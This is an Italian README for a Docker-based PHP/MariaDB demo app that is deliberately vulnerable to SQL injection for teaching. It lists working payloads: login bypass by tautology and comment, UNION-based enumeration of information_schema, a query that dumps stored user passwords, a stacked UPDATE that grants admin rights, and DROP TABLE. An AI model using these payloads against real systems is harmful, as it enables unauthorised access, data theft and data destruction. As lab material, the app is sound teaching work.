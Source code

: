 # SQL Injection Demo App (PHP + MariaDB + Docker)

Questa applicazione è stata creata per scopi didattici e dimostra le vulnerabilità SQL Injection più comuni in un contesto web.

---

## Funzionalità

- Login vulnerabile (tautologia/EOL comment )
- Dashboard con elenco dei dati parziali degli utenti
- Form di ricerca email vulnerabile a:
  - UNION SELECT
  - Esfiltrazione dati da `information_schema`
  - Piggybacking (`DROP`, `UPDATE`)
- Style CSS semplice incluso

---

## Tecnologie

- PHP (senza framework)
- MariaDB 10.5
- Docker & Docker Compose

---

## Requisiti

Per eseguire correttamente il progetto sono necessari i seguenti strumenti:

- Docker Desktop installato e funzionante sul proprio sistema (macOS, Windows o Linux). Docker viene utilizzato per creare ed eseguire i container dell’applicazione e del database.
- Docker Compose deve essere disponibile nel sistema. Nella maggior parte dei casi è incluso direttamente in Docker Desktop, ma in ambienti Linux potrebbe essere necessario installarlo separatamente.
-	Database MariaDB o MySQL: il progetto utilizza MariaDB (via container Docker), ma è compatibile anche con MySQL. Il database viene inizializzato automaticamente tramite uno script SQL (init.sql) incluso nel progetto, quindi non è necessaria alcuna configurazione manuale.

---

## Avvio dell'applicazione

1. Clona il progetto

```bash
git clone https://github.com/BlackCodeReaper/sqli-project.git
cd sqli-project
```

2. Avvia i container

```bash
docker-compose up --build
```

L'app sarà disponibile su `http://localhost:8080/login.html`

---

## Login di esempio

Tautologia:
```
Username: ' OR 1=1 -- 
Password: qualsiasi
```

EOL Comment:
```
Username: admin' -- 
Password: qualsiasi
```

Credenziali reali:
```
Username: admin
Password: admin123
```

---

## Esecuzione di attacchi SQLi

Tautologia:
```
' OR 1=1 -- 
```

Scoprire nome database:
```
' UNION SELECT 'Nome database:', DATABASE(), '', '', '' -- 
```

Elencare tutti gli schemi:
```
' UNION SELECT schema_name, '', '', '', '' FROM information_schema.schemata -- 
```

Elencare tabelle:
```
' UNION SELECT 'Nome tabella:', table_name, '', '', '' FROM information_schema.tables WHERE table_schema='sqli_project' -- 
```

Elencare colonne:
```
' UNION SELECT 'Nome colonna:', column_name, '', '', '' FROM information_schema.columns WHERE table_name='utenti' AND table_schema='sqli_project' -- 
```

Leggere credenziali:
```
'UNION SELECT 'ID', 'username', 'password', 'email', 'telefono' UNION SELECT id, username, password, email, telefono FROM utenti -- 
```

Aggiornare un utente:
```
' ; UPDATE utenti SET ruolo = 'admin' WHERE username = 'user1'; --
```

Cancellare la tabella:
```
' ; DROP TABLE utenti; --
```

---

## Ripristino del database

Se la tabella o il database vengono eliminati durante i test, puoi ricostruire tutto con:

```bash
docker-compose down -v
docker-compose up --build
```

---

## Crediti

Progetto sviluppato per scopi didattici. **Non usare in ambienti di produzione.**